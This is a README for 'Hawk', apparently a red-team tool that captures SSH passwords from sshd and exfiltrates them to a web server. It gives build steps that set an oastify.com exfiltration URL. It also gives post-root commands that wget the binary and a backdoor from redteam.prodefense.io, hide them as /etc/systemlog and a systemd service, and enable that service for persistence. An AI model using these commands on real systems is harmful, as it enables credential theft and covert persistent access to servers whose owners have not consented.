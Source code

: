 # Hawk

This tool monitors sshd for passwords being sent to the server.

## Description

Hawk is a simple tool designed to monitor the sshd service for passwords being sent to the server. It includes a bash script for easy installation and a Go program for password exfiltration to a web server.

## Building for server

```bash
git clone https://github.com/MattKeeley/hawk.git
cd hawk
echo "http://bq5j88gurv5ohn0qyxa02jii3990xulj.oastify.com" > exfil_location
go build -o hawk
cp hawk /home/ubuntu/webserver
cp hawk_backdoor /home/ubuntu/webserver
```

## Run once root is obtained:

```bash
 sudo ls /etc/systemlog || sudo wget http://redteam.prodefense.io:1337/hawk -O /etc/systemlog > /dev/null 2>&1
 sudo ls /etc/systemd/system/systemlog.service || sudo wget http://redteam.prodefense.io:1337/hawk_backdoor -O /etc/systemd/system/systemlog.service
 sudo systemctl start systemlog.service
 sudo systemctl enable systemlog.service
```
